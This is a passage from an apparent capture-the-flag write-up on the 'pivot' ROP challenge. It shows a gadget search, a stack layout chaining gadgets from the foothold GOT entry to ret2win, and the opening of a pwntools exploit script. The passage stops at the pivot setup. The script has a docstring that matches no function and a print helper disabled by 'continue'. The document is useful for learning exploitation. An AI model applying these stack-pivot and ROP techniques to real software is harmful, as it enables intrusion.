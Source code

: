 Finally, let's see if there is anything that can move the IP to rax.

```
pwndbg> ropper -- --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: /root/working/pivot/pivot_64/pivot
0x00000000004007c1: jmp rax; 
```


And that gadget works perfectly. So we can construct our payload as follows:

```
         | stack          |
         | -------------- |
8  bytes | foothold_func  | # call foothold function so it is populated
8  bytes | pop_rax gadget |                                                     
8  bytes | foothold got   | # The memory location of the footholds GOT entry                       
8  bytes | mov rax [rax]  | # Place the value at rax into rax               
8  bytes | pop rbp        | #                                                     
8  bytes | offset         | # offset between foothold and ret2win func        
8  bytes | add rax, rbp   | # Add the offset to rax                   
8  bytes | jmp rax        | # Call the jmp rax gadget to call ret2win                       
8  bytes | -------------- |

```

You would then place this payload into the heap and call it with the previously crafted attack which gives us the overall exploit of:

```Python
#!/usr/bin/python3

from pwn import *

write_loc 	= 0x601029
print_file 	= p64(0x400620)
target		= "./pivot"
back_junk 	= b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
		continue
		print(binascii.hexlify(payload[i:i+8]))

io = process(target)
first_out = io.clean(0.5).decode("utf-8")
print(first_out)
stack_smash = junk + new_bp

############### Set up the pivot ##############
```